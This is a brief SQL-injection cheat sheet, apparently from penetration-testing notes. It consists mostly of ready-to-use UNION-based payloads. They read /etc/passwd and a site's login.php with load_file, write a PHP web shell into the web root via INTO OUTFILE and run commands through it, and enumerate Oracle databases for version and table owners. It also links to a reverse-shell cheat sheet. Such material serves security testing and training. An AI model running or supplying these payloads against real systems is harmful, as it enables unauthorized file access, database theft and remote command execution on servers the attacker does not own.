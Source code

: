 # read file
?id=1 union select 1,2,3,4, load_file('/etc/passwd') ,6,7,8,9-- -
?id=1 union select 1,2,3,4, load_file('/var/www/login.php') ,6,7,8,9-- -

# create a file and call it to check if really created
?id=1 union select 1,2,3,4,'this is a test message' ,6,7,8,9 into outfile '/var/www/test'-- -
?id=1 union select 1,2,3,4, load_file('/var/www/test') ,6,7,8,9-- -
	
# create a file to get a shell
?id=1 union select null,null,null,null,'<?php system($_GET[‘cmd’]) ?>' ,6,7,8,9 into outfile '/var/www/shell.php'-- -
?id=1 union select null,null,null,null, load_file('/var/www/shell.php') ,6,7,8,9 -- -

# then go to browser and see if you can execute commands
http://<targetip>/shell.php?cmd=id

Reverse [shells](https://pentestmonkey.net/cheat-sheet)
 
# Oracle
  
Manual Oracle injection commands

# check for Oracle injection vulnerability
 
?id=1'

# find the number of columns
?id=1 order by 9 from dual-- -

# Find space to output db
?id=1 union select 1,2,3,4,5,6,7,8,9 from dual-- -
or 
?id=1 union select NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from dual-- -


# Get version
?id=1 union select 1,2,3,4,banner,6,7,8,9 from v$version-- -

# Get all DBS for oracle
?id=1 union select 1,2,3,4,owner,6,7,8,9 from all_tables-- -
